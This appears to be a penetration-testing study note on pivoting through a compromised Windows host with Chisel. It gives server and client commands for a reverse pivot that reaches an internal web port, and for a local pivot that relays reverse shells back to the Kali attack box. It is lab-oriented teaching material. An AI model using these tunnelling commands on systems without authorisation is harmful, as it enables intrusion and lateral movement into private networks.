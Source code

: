 # Pivoting with Chisel

## Reverse Pivot&#x20;

(sends traffic back to kali via tunnel)



Kali -> victim -> network host

* Attack host spins up reverse listener
* Victim sets up tunnel back to listener port on attack box and also links between intermediate client and remote target
* Allows connection from Kali (127.0.0.1:8001) via tunnel to port 80 on remote host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v -reverse
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 R:8001:172.16.163.5:80
```

![](<../../.gitbook/assets/Reverse Pivot Step 1.png>) ![](<../../.gitbook/assets/Reverse Pivot Step 2.png>)

## Local Pivot&#x20;

(sends traffic to client and then back to kali)



Kali > victim < network host

* Attack host spins up listener
* Victim sets up tunnel back to listener port on attack box and also opens listener on localhost
* Hosts can send traffic (rev shell) back to listener on victim which gets directed back to attack host

On attack box:

```
[root@kali:/r/t/chisel]# ./chisel server -p 8000 -v
```

On intermediate target:

```
C:\Users\offsec\Documents>chisel.exe client 192.168.119.163:8000 9001:127.0.0.1:8001
```

On Remote host execute payload with IP of client and it will get forwarded to attack box

![](<../../.gitbook/assets/Local Pivot Step 1.png>)![](<../../.gitbook/assets/Local Pivot Step 2.png>)![](<../../.gitbook/assets/Local Pivot Step 3.png>)
